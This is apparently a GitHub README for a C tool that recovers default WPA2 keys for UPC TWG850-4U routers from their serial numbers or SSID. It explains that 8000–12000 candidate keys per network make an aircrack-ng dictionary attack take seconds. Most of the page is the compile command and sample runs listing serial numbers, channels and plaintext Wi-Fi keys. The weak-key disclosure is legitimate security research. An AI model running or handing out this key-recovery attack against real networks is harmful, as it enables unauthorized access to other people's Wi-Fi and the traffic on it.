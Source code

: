 # TWG850-4U UPC%06d WPA2 keys

Same as in the [Technicolor TC7200.U](https://haxx.in/upc-wifi/), the Wi-Fi SSID and
password are derived from the device's serial number.
However, for the TWG850-4U, there are around 8000-12000
possible WPA2 keys for each UPC%06d network, as opposed
to ~20 keys in the TC7200.U - still good enough for
a dictionary attack though: `aircrack-ng` does it in less than 5 seconds
on a Core i5-6600.

The WiFi channel number is also derived from the serial
number, but in such a way that it's guaranteed to be either
channel 1 or 6 (or 11, but the algorithm used almost never
generates channel 11). The distribution is 1/3 channel 1,
and 2/3 channel 6. The channel number printed on the bottom
label is _not_ used!

`$ cc upc-twg850.c -o upc-twg850`

Print WPA2 key and SSID for serial number `00939-907201352`

```
$ ./upc-twg850 00939907201352
00939-907201352  6   UPC009038  AALOMMAA
```
Get serial numbers and WPA2 keys for SSID `UPC009065`

<pre>
$ ./upc-twg850 UPC009065
[...]
00939-907002034  1   UPC009065  IQVCGOKQ  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907301011  1   UPC009065  QGGQKWBE  
00939-907400670  6   UPC009065  EIMDZWKS
[...]
</pre>

Same as above, but limit search to channel 6

<pre>
$ ./upc-twg850 UPC009065 6
[...]
00939-906500332  6   UPC009065  BDMWZWKE  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907400670  6   UPC009065  EIMDZWKS  
00939-907500329  6   UPC009065  CSAAAAYZ
[...]
</pre>


